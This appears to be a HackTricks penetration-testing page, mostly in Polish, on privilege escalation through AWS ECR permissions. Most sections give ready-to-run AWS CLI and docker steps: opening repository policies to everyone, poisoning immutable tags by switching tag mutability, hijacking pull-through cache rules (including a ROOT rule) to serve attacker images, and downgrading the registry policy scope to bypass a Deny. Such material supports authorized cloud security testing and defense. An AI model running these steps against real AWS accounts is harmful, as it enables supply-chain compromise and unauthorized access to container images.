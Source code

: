 # AWS - ECR Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## ECR

### `ecr:GetAuthorizationToken`,`ecr:BatchGetImage`

An attacker with the **`ecr:GetAuthorizationToken`** and **`ecr:BatchGetImage`** can login to ECR and download images.

For more info on how to download images:

{{#ref}}
../../aws-post-exploitation/aws-ecr-post-exploitation/README.md
{{#endref}}

**Potential Impact:** Indirect privesc by intercepting sensitive information in the traffic.

### `ecr:GetAuthorizationToken`, `ecr:BatchCheckLayerAvailability`, `ecr:CompleteLayerUpload`, `ecr:InitiateLayerUpload`, `ecr:PutImage`, `ecr:UploadLayerPart`

Atakujący posiadający te uprawnienia **może zalogować się do ECR i przesłać obrazy**. Może to być przydatne do eskalacji uprawnień w innych środowiskach, w których te obrazy są używane.

To learn how to upload a new image/update one, check:

{{#ref}}
../../aws-services/aws-eks-enum.md
{{#endref}}

### `ecr-public:GetAuthorizationToken`, `ecr-public:BatchCheckLayerAvailability, ecr-public:CompleteLayerUpload`, `ecr-public:InitiateLayerUpload, ecr-public:PutImage`, `ecr-public:UploadLayerPart`

Podobnie jak w poprzedniej sekcji, ale dla repozytoriów publicznych.

### `ecr:SetRepositoryPolicy`

Atakujący z tym uprawnieniem mógłby **zmienić** **politykę** **repozytorium**, aby przyznać sobie (lub nawet wszystkim) **dostęp odczytu/zapisu**.\
Na przykład, w tym przykładzie dostęp do odczytu jest przyznany wszystkim.
```bash
aws ecr set-repository-policy \
--repository-name <repo_name> \
--policy-text file://my-policy.json
```
Zawartość pliku `my-policy.json`:
```json
{
"Version": "2008-10-17",
"Statement": [
{
"Sid": "allow public pull",
"Effect": "Allow",
"Principal": "*",
"Action": [
"ecr:BatchCheckLayerAvailability",
"ecr:BatchGetImage",
"ecr:GetDownloadUrlForLayer"
]
}
]
}
```
### `ecr-public:SetRepositoryPolicy`

Podobnie jak w poprzedniej sekcji, ale dla publicznych repozytoriów.\
Atakujący może **zmodyfikować politykę repozytorium** ECR Public, aby nadać nieautoryzowany publiczny dostęp lub eskalować swoje uprawnienia.
```bash
# Create a JSON file with the malicious public repository policy
echo '{
"Version": "2008-10-17",
"Statement": [
{
"Sid": "MaliciousPublicRepoPolicy",
"Effect": "Allow",
"Principal": "*",
"Action": [
"ecr-public:GetDownloadUrlForLayer",
"ecr-public:BatchGetImage",
"ecr-public:BatchCheckLayerAvailability",
"ecr-public:PutImage",
"ecr-public:InitiateLayerUpload",
"ecr-public:UploadLayerPart",
"ecr-public:CompleteLayerUpload",
"ecr-public:DeleteRepositoryPolicy"
]
}
]
}' > malicious_public_repo_policy.json

# Apply the malicious public repository policy to the ECR Public repository
aws ecr-public set-repository-policy --repository-name your-ecr-public-repo-name --policy-text file://malicious_public_repo_policy.json
```
**Potencjalny wpływ**: Nieautoryzowany publiczny dostęp do ECR Public repository, pozwalający każdemu użytkownikowi na push, pull lub usuwanie obrazów.

### `ecr:PutRegistryPolicy`

Atakujący z tym uprawnieniem mógłby **zmienić** **politykę rejestru**, aby przyznać sobie, swojemu kontu (lub nawet wszystkim) **dostęp do odczytu/zapisu**.
```bash
aws ecr set-repository-policy \
--repository-name <repo_name> \
--policy-text file://my-policy.json
```
### ecr:CreatePullThroughCacheRule

Abuse ECR Pull Through Cache (PTC) rules, aby zmapować attacker-controlled upstream namespace na zaufany prywatny prefiks ECR. Dzięki temu workloads pobierające z prywatnego ECR będą transparentnie otrzymywać obrazy attacker bez konieczności push do prywatnego ECR.

- Wymagane perms: ecr:CreatePullThroughCacheRule, ecr:DescribePullThroughCacheRules, ecr:DeletePullThroughCacheRule. Jeśli używasz ECR Public jako upstream: ecr-public:* do create/push do public repo.
- Tested upstream: public.ecr.aws

Steps (example):

1. Prepare attacker image in ECR Public
# Get your ECR Public alias with: aws ecr-public describe-registries --region us-east-1
docker login public.ecr.aws/<public_alias>
docker build -t public.ecr.aws/<public_alias>/hacktricks-ptc-demo:ptc-test .
docker push public.ecr.aws/<public_alias>/hacktricks-ptc-demo:ptc-test

2. Create the PTC rule in private ECR to map a trusted prefix to the public registry
aws ecr create-pull-through-cache-rule --region us-east-2 --ecr-repository-prefix ptc --upstream-registry-url public.ecr.aws

3. Pull the attacker image via the private ECR path (no push to private ECR was done)
docker login <account_id>.dkr.ecr.us-east-2.amazonaws.com
docker pull <account_id>.dkr.ecr.us-east-2.amazonaws.com/ptc/<public_alias>/hacktricks-ptc-demo:ptc-test
docker run --rm <account_id>.dkr.ecr.us-east-2.amazonaws.com/ptc/<public_alias>/hacktricks-ptc-demo:ptc-test

Potential Impact: Kompromitacja łańcucha dostaw przez przejęcie wewnętrznych nazw obrazów pod wybranym prefiksem. Każdy workload pobierający obrazy z prywatnego ECR używając tego prefiksu otrzyma attacker-controlled content.

### `ecr:PutImageTagMutability`

Abuse this permission, aby zmienić repozytorium z tag immutability na mutable i nadpisać zaufane tagi (np. latest, stable, prod) attacker-controlled content.

- Wymagane perms: `ecr:PutImageTagMutability` plus push capabilities (`ecr:GetAuthorizationToken`, `ecr:InitiateLayerUpload`, `ecr:UploadLayerPart`, `ecr:CompleteLayerUpload`, `ecr:PutImage`).
- Impact: Kompromitacja łańcucha dostaw przez ciche zastąpienie niezmienialnych tagów bez zmiany nazw tagów.

Steps (example):

<details>
<summary>Zatrucie niezmienialnego taga przez przełączenie mutability</summary>
```bash
REGION=us-east-1
REPO=ht-immutable-demo-$RANDOM
aws ecr create-repository --region $REGION --repository-name $REPO --image-tag-mutability IMMUTABLE
acct=$(aws sts get-caller-identity --query Account --output text)
aws ecr get-login-password --region $REGION | docker login --username AWS --password-stdin ${acct}.dkr.ecr.${REGION}.amazonaws.com
# Build and push initial trusted tag
printf 'FROM alpine:3.19\nCMD echo V1\n' > Dockerfile && docker build -t ${acct}.dkr.ecr.${REGION}.amazonaws.com/${REPO}:prod . && docker push ${acct}.dkr.ecr.${REGION}.amazonaws.com/${REPO}:prod
# Attempt overwrite while IMMUTABLE (should fail)
printf 'FROM alpine:3.19\nCMD echo V2\n' > Dockerfile && docker build -t ${acct}.dkr.ecr.${REGION}.amazonaws.com/${REPO}:prod . && docker push ${acct}.dkr.ecr.${REGION}.amazonaws.com/${REPO}:prod
# Flip to MUTABLE and overwrite
aws ecr put-image-tag-mutability --region $REGION --repository-name $REPO --image-tag-mutability MUTABLE
docker push ${acct}.dkr.ecr.${REGION}.amazonaws.com/${REPO}:prod
# Validate consumers pulling by tag now get the poisoned image (prints V2)
docker run --rm ${acct}.dkr.ecr.${REGION}.amazonaws.com/${REPO}:prod
```
</details>


#### Global registry hijack via ROOT Pull-Through Cache rule

Utwórz regułę Pull-Through Cache (PTC) używając specjalnego `ecrRepositoryPrefix=ROOT`, żeby zmapować root prywatnego rejestru ECR na upstream public registry (np. ECR Public). Każde pull do nieistniejącego repozytorium w prywatnym rejestrze będzie transparentnie serwowane z upstream, umożliwiając supply-chain hijacking bez pushowania do prywatnego ECR.

- Wymagane uprawnienia: `ecr:CreatePullThroughCacheRule`, `ecr:DescribePullThroughCacheRules`, `ecr:DeletePullThroughCacheRule`, `ecr:GetAuthorizationToken`.
- Wpływ: Pulls do `<account>.dkr.ecr.<region>.amazonaws.com/<any-existing-upstream-path>:<tag>` zakończą się powodzeniem i automatycznie utworzą prywatne repozytoria pochodzące z upstream.

> Uwaga: Dla reguł `ROOT` pomiń `--upstream-repository-prefix`. Podanie go spowoduje błąd walidacji.

<details>
<summary>Demo (us-east-1, upstream public.ecr.aws)</summary>
```bash
REGION=us-east-1
ACCT=$(aws sts get-caller-identity --query Account --output text)

# 1) Create ROOT PTC rule mapping to ECR Public (no upstream prefix)
aws ecr create-pull-through-cache-rule \
--region "$REGION" \
--ecr-repository-prefix ROOT \
--upstream-registry-url public.ecr.aws

# 2) Authenticate to private ECR and pull via root path (triggers caching & auto repo creation)
aws ecr get-login-password --region "$REGION" | docker login --username AWS --password-stdin ${ACCT}.dkr.ecr.${REGION}.amazonaws.com

# Example using an official mirror path hosted in ECR Public
# (public.ecr.aws/docker/library/alpine:latest)
docker pull ${ACCT}.dkr.ecr.${REGION}.amazonaws.com/docker/library/alpine:latest

# 3) Verify repo and image now exist without any push
aws ecr describe-repositories --region "$REGION" \
--query "repositories[?repositoryName==docker/library/alpine]"
aws ecr list-images --region "$REGION" --repository-name docker/library/alpine --filter tagStatus=TAGGED

# 4) Cleanup
aws ecr delete-pull-through-cache-rule --region "$REGION" --ecr-repository-prefix ROOT
aws ecr delete-repository --region "$REGION" --repository-name docker/library/alpine --force || true
```
</details>

### `ecr:PutAccountSetting` (Degradacja `REGISTRY_POLICY_SCOPE` w celu ominięcia Deny w polityce rejestru)

Wykorzystaj `ecr:PutAccountSetting`, aby zmienić zakres polityki rejestru z `V2` (polityka stosowana do wszystkich akcji ECR) na `V1` (polityka stosowana tylko do `CreateRepository`, `ReplicateImage`, `BatchImportUpstreamImage`). Jeśli restrykcyjny Deny w polityce rejestru blokuje akcje takie jak `CreatePullThroughCacheRule`, degradacja do `V1` usuwa to ograniczenie i pozwala na zastosowanie reguł Allow z polityki tożsamości.

- Wymagane uprawnienia: `ecr:PutAccountSetting`, `ecr:PutRegistryPolicy`, `ecr:GetRegistryPolicy`, `ecr:CreatePullThroughCacheRule`, `ecr:DescribePullThroughCacheRules`, `ecr:DeletePullThroughCacheRule`.
- Wpływ: Możliwość wykonania akcji ECR wcześniej blokowanych przez Deny w polityce rejestru (np. utworzenie reguł PTC) poprzez tymczasowe ustawienie zakresu na `V1`.

Kroki (przykład):

<details>
<summary>Ominięcie Deny w polityce rejestru dla CreatePullThroughCacheRule przez przełączenie na V1</summary>
```bash
REGION=us-east-1
ACCT=$(aws sts get-caller-identity --query Account --output text)

# 0) Snapshot current scope/policy (for restore)
aws ecr get-account-setting --name REGISTRY_POLICY_SCOPE --region $REGION || true
aws ecr get-registry-policy --region $REGION > /tmp/orig-registry-policy.json 2>/dev/null || echo '{}' > /tmp/orig-registry-policy.json

# 1) Ensure V2 and set a registry policy Deny for CreatePullThroughCacheRule
aws ecr put-account-setting --name REGISTRY_POLICY_SCOPE --value V2 --region $REGION
cat > /tmp/deny-ptc.json <<'JSON'
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "DenyPTCAll",
"Effect": "Deny",
"Principal": "*",
"Action": ["ecr:CreatePullThroughCacheRule"],
"Resource": "*"
}
]
}
JSON
aws ecr put-registry-policy --policy-text file:///tmp/deny-ptc.json --region $REGION

# 2) Attempt to create a PTC rule (should FAIL under V2 due to Deny)
set +e
aws ecr create-pull-through-cache-rule \
--region $REGION \
--ecr-repository-prefix ptc-deny-test \
--upstream-registry-url public.ecr.aws
RC=$?
set -e
if [ "$RC" -eq 0 ]; then echo "UNEXPECTED: rule creation succeeded under V2 deny"; fi

# 3) Downgrade scope to V1 and retry (should SUCCEED now)
aws ecr put-account-setting --name REGISTRY_POLICY_SCOPE --value V1 --region $REGION
aws ecr create-pull-through-cache-rule \
--region $REGION \
--ecr-repository-prefix ptc-deny-test \
--upstream-registry-url public.ecr.aws

# 4) Verify rule exists
aws ecr describe-pull-through-cache-rules --region $REGION \
--query "pullThroughCacheRules[?ecrRepositoryPrefix=='ptc-deny-test']"

# 5) Cleanup and restore
aws ecr delete-pull-through-cache-rule --region $REGION --ecr-repository-prefix ptc-deny-test || true
if jq -e '.registryPolicyText' /tmp/orig-registry-policy.json >/dev/null 2>&1; then
jq -r '.registryPolicyText' /tmp/orig-registry-policy.json > /tmp/_orig.txt
aws ecr put-registry-policy --region $REGION --policy-text file:///tmp/_orig.txt
else
aws ecr delete-registry-policy --region $REGION || true
fi
aws ecr put-account-setting --name REGISTRY_POLICY_SCOPE --value V2 --region $REGION
```
</details>

{{#include ../../../../banners/hacktricks-training.md}}
